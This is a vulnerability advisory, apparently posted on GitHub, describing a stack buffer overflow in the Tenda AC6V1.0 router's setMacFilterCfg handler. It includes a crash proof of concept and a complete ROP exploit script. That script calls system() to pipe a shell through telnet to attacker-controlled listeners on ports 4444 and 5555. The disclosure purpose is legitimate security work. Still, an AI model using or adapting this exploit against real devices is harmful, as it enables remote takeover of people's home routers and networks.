




# Stack-Based Buffer Overflow in Tenda AC6V1.0(firmware V15.03.05.19) setMacFilterCfg

## Summary
A stack-based buffer overflow vulnerability in the Tenda AC6V1.0 router (firmware V15.03.05.19) allows unauthenticated remote attackers to execute arbitrary code or cause denial of service (DoS) via the `deviceList` parameter in the `/goform/setMacFilterCfg` endpoint. The flaw resides in the `sub_BE73C` function (aliased as `parse_macfilter_rule`), which uses unsafe `strcpy` operations without bounds checking, enabling stack corruption.

## Details
- **Vendor**: Tenda
- **Product**: Tenda AC6V1.0 
- **Firmware Version**: V15.03.05.19
- **Firmware Download**: [https://tenda.com.cn/material/show/2681](https://tenda.com.cn/material/show/2681)
- **Component**: `/goform/setMacFilterCfg` (functions `formSetMacFilterCfg` and `sub_BE73C`)
- **Vulnerability Type**: Stack-Based Buffer Overflow (CWE-121)
- **CVE ID**: Pending
- **Reported by**: n0ps1ed (n0ps1edzz@gmail.com)

## Description
The vulnerability exists in the `formSetMacFilterCfg` function, which processes HTTP POST requests to `/goform/setMacFilterCfg`. The `deviceList` parameter is passed to `sub_BD758` and then to `sub_BE73C` (parse_macfilter_rule). The portion after `\r` is copied into a fixed-size buffer using `strcpy(a2, src)` without length validation. If the input exceeds the buffer size, it overflows the stack, potentially overwriting return addresses or other critical data.

This allows attackers to:
- Cause a denial of service (DoS) by crashing the router.
- Achieve remote code execution (RCE) by crafting a payload with ROP gadgets.


## PoC: Python Exploit Script
```python
from pwn import *
import requests

payload = cyclic(1000)  # 1000-byte cyclic pattern to overflow buffer
url = "http://192.168.xxx.xxx/goform/setMacFilterCfg"
cookie = {"Cookie": "password=rfl1qw"}
data = {"macFilterType": "black", "deviceList": b"\r" + payload}
response = requests.post(url, cookies=cookie, data=data)
response = requests.post(url, cookies=cookie, data=data)  # Double POST to bypass potential checks
print(response.text)
```


## exp
Open two terminals and execute nc -l 4444 and nc -l 5555 respectively. One is used for executing commands, and the other for echoing response. Then open a third terminal to run the exp：
```python
from pwn import *
import requests

url = "http://(target_ip)/goform/setMacFilterCfg"
libc_base=0xff58b000 #it will be diffirent
libc=ELF("/lib/libc.so.0") #your own path
print(hex(libc.sym['system']))
#print(hex(libc.sym['puts']))
system=libc_base+libc.sym["system"]
#puts = libc_base+libc.sym['puts']
mov_r0 = libc_base+0x00040cb8 # mov r0, sp; blx r3;
pop_r3 = libc_base+0x00018298 # pop {r3, pc};
#payload1 = cyclic(176)+p32(pop_r3)+p32(puts)+p32(mov_r0)+b"hacked by n0ps1ed\x00"
payload2 = cyclic(176)+p32(pop_r3)+p32(system)+p32(mov_r0)+b"telnet 192.168.xx.xxx 4444 | /bin/sh | telnet 192.168.xx.xxx 5555\x00"
cookie = {"Cookie": "password=rfl1qw"}
data = {"macFilterType": "black", "deviceList": b"\r" + payload2}
res = requests.post(url, cookies=cookie, data=data)
res = requests.post(url, cookies=cookie, data=data)
print(res.text)

```


## Impact
- **Denial of Service (DoS)**: The oversized payload crashes the router’s web server, disrupting network connectivity and management access.
- **Remote Code Execution (RCE)**: With a crafted ROP chain, attackers can execute arbitrary commands.

